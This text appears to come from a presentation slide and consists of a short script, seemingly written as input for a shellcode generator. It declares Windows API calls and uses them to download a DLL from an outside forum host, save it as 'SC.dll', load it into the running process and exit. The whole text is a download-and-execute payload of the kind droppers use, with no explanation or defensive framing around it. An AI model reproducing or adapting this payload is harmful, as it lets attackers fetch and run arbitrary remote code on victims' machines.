

# Download and Load DLL
function URLDownloadToFileA("urlmon.dll");
function LoadLibraryA("kernel32.dll");
function ExitProcess("kernel32.dll");

URLDownloadToFileA(0,"https://rstforums.com/fisiere/DLLExample.dll","SC.dll",0,0);
LoadLibraryA("SC.dll");
ExitProcess(0);